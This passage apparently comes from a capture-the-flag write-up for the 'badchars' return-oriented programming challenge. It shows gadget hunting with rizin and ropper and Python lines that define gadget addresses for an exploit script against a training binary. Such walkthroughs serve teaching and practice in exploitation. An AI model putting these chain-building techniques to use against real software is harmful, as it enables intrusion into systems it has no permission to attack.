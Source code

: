 Now, we need a gadget to write stuff to memory. Of course, another gadget search can solve this problem for us, but observant readers will have noticed in the disassembly above:

```text
0x00400634      4d896500               mov qword [r13], r12
0x00400638      c3                     ret
```

Perfect. We can add that to our list of gadgets.

```python
# mov qword ptr [r13], r12; ret
MOV_R13_PTR_GADGET = p64(0x400634)
```

We also need a way to get the values from our stack into memory, for which a gadget is unfortunately not provided. However, this is easily remedied:

```text
$ ropper -f ./badchars -b '7861672e' --search pop

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] filtering badbytes... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: ./badchars
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040069e: pop r13; pop r14; pop r15; ret; 
0x00000000004006a0: pop r14; pop r15; ret; 
0x00000000004006a2: pop r15; ret; 
0x000000000040057b: pop rbp; mov edi, 0x601038; jmp rax; 
0x000000000040069b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040069f: pop rbp; pop r14; pop r15; ret; 
0x0000000000400588: pop rbp; ret; 
0x00000000004006a3: pop rdi; ret; 
0x00000000004006a1: pop rsi; pop r15; ret; 
0x000000000040069d: pop rsp; pop r13; pop r14; pop r15; ret; 
```

The best gadget that fits our use case is `pop r12; pop r13; pop r14; pop r15; ret;`, as it doesn't contain any instructions that alter crucial registers like `rsp` or `rbp`, and also pops `r12`. In addition, since our XOR gadget operates on `r14` and `r15`, let's save ourselves some time and also grab the gadget for `pop`-ing those registers.

We can add these two to our list of gadgets:

```python
# pop r14; pop r15; ret
POP_R14_R15_GADGET = p64(0x4006a0)
# pop r12; pop r13; pop r14; pop r15; ret
POP_R12_TO_R15_GADGET = p64(0x40069c)
```

We also need a place in memory to write to. Last time, we wrote to the `.data` section, so we can try that again. A well-placed `rizin` command later, we have our address and we can add it to the exploit script.

